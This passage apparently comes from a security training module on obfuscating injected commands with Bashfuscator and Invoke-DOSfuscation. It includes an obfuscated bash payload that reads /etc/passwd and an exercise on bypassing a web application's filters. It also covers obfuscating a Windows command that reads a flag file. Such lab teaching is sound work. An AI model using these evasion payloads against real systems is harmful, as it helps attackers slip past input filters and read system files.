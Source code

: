 ```shell
bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...

```

We can see that the obfuscated command works, all while looking completely obfuscated, and does not resemble our original command. We may also notice that the tool utilizes many obfuscation techniques, including the ones we previously discussed and many others.

Exercise: Try testing the above command with our web application, to see if it can successfully bypass the filters. If it does not, can you guess why? And can you make the tool produce a working payload?

* * *

## Windows (DOSfuscation)

There is also a very similar tool that we can use for Windows called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike `Bashfuscator`, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command. We can once again clone the tool from GitHub and then invoke it through PowerShell, as follows:

```powershell
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation

```

We can even use `tutorial` to see an example of how the tool works. Once we are set, we can start using the tool, as follows:

```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

```
